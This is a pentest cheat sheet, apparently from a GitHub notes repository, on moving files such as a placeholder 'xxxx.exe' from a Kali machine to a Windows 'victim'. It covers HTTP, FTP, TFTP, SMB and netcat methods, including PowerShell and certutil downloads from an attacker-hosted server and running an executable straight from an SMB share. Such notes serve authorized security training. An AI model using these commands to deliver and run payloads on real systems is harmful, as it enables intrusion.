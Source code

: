 # File Transfer

#### Python

```bash
# python2 http server
python2 -m SimpleHTTPServer 1337 #1337 - port no
# python3 http server
python3 -m http.server 1337
# python ftp server with anon login and write permission
# installing module
pip install pyftpdlib
# starting the server
python -m pyftpdlib -p 21 --write
```

#### NC

```bash
# sender
nc 10.10.10.10 1337 \< \<file_to_be_sent\>
# reciever
nc -lvnp 1337 \> \<outfile\>
```


#### File Transfer from kali to windows:
Here we will be transferring the `xxxx.exe` from kali to windows
In Kali, utilities like `curl` and `wget` will be exported by default hence, there will no need of covering file transfer methods for them

- [http](#http)
- [ftp](#ftp)
- [tftp](#tftp)
- [SMB](#smb)

##### HTTP Transferring <a name='http'></a>
*Setting UP the server :*
- Apache

<h5>Apache:</h5>

```bash
cp xxxx.exe /var/www/html
service apache2 start

#The apache2 server's activity can be verfied with
─[kali@kali]─[~]$ service apache2 status
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Sat 2020-08-01 04:28:17 EDT; 12s ago

```

*Receiving the file:*
- When GUI is available, fire up the browser and navigate to `http://iamserver:port/xxxx.exe` to download the file
- When only CLI is available, the webclient object is used

```bash
powershell -c (new-object System.Net.WebClient).DownloadFile('http://iamserver:port/xxxx.exe','C:\download\path\xxxx.exe')
# If the abouve one fails
# with aliases
iwr -uri 'http://iamserver:port/xxxx.exe' -o 'C:\download\path\xxxx.exe'
# with commandlet
powershell.exe -command Invoke-WebRequest -Uri 'http://iamserver:port/xxxx.exe' -OutFile 'C:\download\path\xxxx.exe'

# file transfer when only cmd is available, output just like wget
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe
```

##### FTP Transferring <a name='ftp'></a>
- Windows has an inbuilt ftp client located in,`C:\Windows\System32\ftp.exe`

*Setting UP the server:*
- vsftpd
- Metasploit

<h5>vsftpd :</h5>

- Installing a fully functional `ftp` service in the kali machine

```bash
apt-get install vsftpd
#in the vsftpd.conf
local_enable = yes
write_enable = yes
chroot_list_enable=YES
chroot_list_file=/etc/vsftpd.chroot_list
anonymous_enable=yes
#end of editing config file

vsftpd start 
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/ftp
set FTPUSER wr3nch
set FTPPASS damnedsec
set FTPROOT \<directory/path\>
run
```

*Receiving the file:*
- As `ftp` is pre installed in windows, ftp login to obtain files

```bash
ftp 10.10.10.10
username anonymous
password anonymous
#set the transfer to binary mode
binary
#download file
get xxxx.exe
```

##### TFTP Transferring <a name='tftp'></a>

- `tftp` is installed by default in windows xp machine but is disabled in newer machines
- Through tftp, files can be downloaded in a single command

*Setting UP the server:*
- atftpd
- Metasploit

<h5>atftpd: </h5>
- Linux exports with built in tftp service

```bash
service atftpd start
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/tftp
set TFTPROOT \<directory/path\>
run
```

*Receiving the file:*

- Enabling tftp as it is disabled by default in newer machines

```bash
pkgmgr /iu:"TFTP"
```

- tftp doesnt require any authentication
- If installed in the victim machine make use of it

```bash
#download a file
tftp -i 10.10.10.10 GET xxxx.exe

#upload a file
tftp -i 10.10.10.10 PUT xyz.exe
```

##### SMB Transferring <a name='smb'></a>

- SMB is exported builtin with windows

*Setting UP the server:*

- Linux
- Impacket

<h5>Linux: </h5>

```bash
#inastall dependencies
python-glade2 system-config-samba

# Configuring SAMBA
# edit the /etc/samba/smb.conf file
# change the workgroup= WORKGROUP to your network needs and tweak and save the conf file
# restart the samba
sudo service smbd restart
```
<h5>Impacket: </h5>

- The `smbserver.py` in the impackets will take care of every cofigurations and binds to port 445

```bash
python smbserver.py wr3nch \<directory/path\>
```

- This can be verified with `SMBCLIENT` which is pre-installed in LINUX

```bash
# connect to the specified IP with no password
# the name wr3nch given when starting the smbserver.py will be shown as the share name
smbclient -L 10.10.10.11 --no-pass
```

*Receiving the file:*

- The smb server is treated as a local share
- Just access it to obtain the files

```bash
# list the contents of the share
dir \\10.10.10.11\wr3nch

# copy files from ther server to the windows machine
copy \\10.10.10.11\wr3nch\xxxx.exe .

# executing files straight from the server 
\\10.10.10.11\wr3nch\xxxx.exe
```
